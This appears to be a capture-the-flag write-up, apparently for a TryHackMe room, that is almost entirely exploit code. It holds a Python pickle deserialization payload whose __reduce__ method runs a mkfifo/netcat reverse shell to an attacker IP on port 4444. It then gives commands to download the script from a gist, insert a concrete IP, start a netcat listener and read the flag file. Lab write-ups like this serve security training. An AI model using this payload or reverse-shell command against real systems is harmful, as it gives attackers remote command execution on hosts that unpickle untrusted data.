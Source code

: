 ![](<../../.gitbook/assets/image (7) (1).png>)

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

#### **flag.txt**

```bash
wget https://gist.githubusercontent.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3/raw/f0fce6310455d8c345bbc9ec81f41d224896b9c5/rce.py
sed -i 's/YOUR_TRYHACKME_VPN_IP/10.9.101.193/' rce.py
python rce.py
```

```
nc -nvlp 4444
cat /home/cmnatic/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-27 09-36-58.png>)
